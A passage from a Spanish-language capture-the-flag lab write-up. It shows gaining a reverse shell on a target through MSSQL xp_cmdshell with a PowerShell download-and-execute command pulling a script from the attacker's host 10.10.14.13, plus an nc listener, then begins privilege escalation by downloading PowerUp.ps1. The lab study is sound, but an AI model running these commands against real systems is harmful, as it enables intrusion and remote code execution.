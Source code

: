 <figure><img src="../../../../../.gitbook/assets/1003_vmware_Q29p4CyddS.png" alt=""><figcaption></figcaption></figure>

En nuestra Kali, deberemos de levantar un servidor web con Python para compartir el archivo, des de otra terminal nos pondremos en escucha con **nc** por el puerto especificado en el script y des de la terminal donde hemos accedido anteriormente al MSSQL ejecutaremos con el componente **xp\_cmdshell** la instrucción para que ejecute el comando de Powershell sobre el script que tenemos alojado en nuestra Kali.

Comprobamos que ganamos acceso al equipo en la terminal donde estabamos en escucha. Verificamos la flag de **user.txt**.

{% code overflow="wrap" %}
```bash
python3 -m http.server 80

rlwrap nc -nlvp 443

xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.13/PS.ps1\")"
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1014_vmware_twutPVLWRN.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Enumerating PrivEsc with PowerUp.ps1

Probaremos de encontrar posibles vectores para realizar un PrivEsc y elevar nuestros privilegios como usuario Administrador.

Para ello, en nuestra Kali nos descargaremos el script de [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1).

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1
```
{% endcode %}
